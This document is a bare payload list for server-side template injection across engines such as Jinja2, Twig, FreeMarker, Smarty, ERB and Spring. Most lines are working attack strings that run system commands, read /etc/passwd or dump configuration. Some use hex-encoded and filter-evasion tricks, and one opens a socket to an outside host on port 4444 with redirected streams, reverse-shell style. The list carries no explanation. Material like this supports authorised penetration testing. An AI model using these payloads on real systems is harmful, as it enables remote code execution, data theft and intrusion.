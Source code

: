 # Server Side Template Injection Payloads

    {{}}
    ${}
    <%=  %>
    ${{}}
    #{}
    *{}

    
    {{2*2}}[[3*3]]
    {{3*3}}
    {{3*'3'}}
    <%= 3 * 3 %>
    ${6*6}
    ${{3*3}}
    @(6+5)
    #{3*3}
    #{ 3 * 3 }
    {{dump(app)}}
    {{app.request.server.all|join(',')}}
    {{config.items()}}
    {{ [].class.base.subclasses() }}
    {{''.class.mro()[1].subclasses()}}
    {{ ''.__class__.__mro__[2].__subclasses__() }}
    {{''.__class__.__base__.__subclasses__()}} # Search for Popen process, use payload below change 227 to index of Popen
    {{''.__class__.__base__.__subclasses__()[227]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}
    {% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}
    {{'a'.toUpperCase()}} 
    {{ request }}
    {{self}}
    <%= File.open('/etc/passwd').read %>
    <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
    [#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
    ${"freemarker.template.utility.Execute"?new()("id")}
    {{app.request.query.filter(0,0,1024,{'options':'system'})}}
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
    {{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
    {{''.__class__.mro()[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip()}}
    {{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
    {$smarty.version}
    {php}echo `id`;{/php}
    {{['id']|filter('system')}}
    {{['cat\x20/etc/passwd']|filter('system')}}
    {{['cat$IFS/etc/passwd']|filter('system')}}
    {{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
    {{request|attr(["_"*2,"class","_"*2]|join)}}
    {{request|attr(["__","class","__"]|join)}}
    {{request|attr("__class__")}}
    {{request.__class__}}
    {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
    {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
    {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
    {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
    {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"/etc/passwd\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
    ${T(java.lang.System).getenv()}
    ${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
    ${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
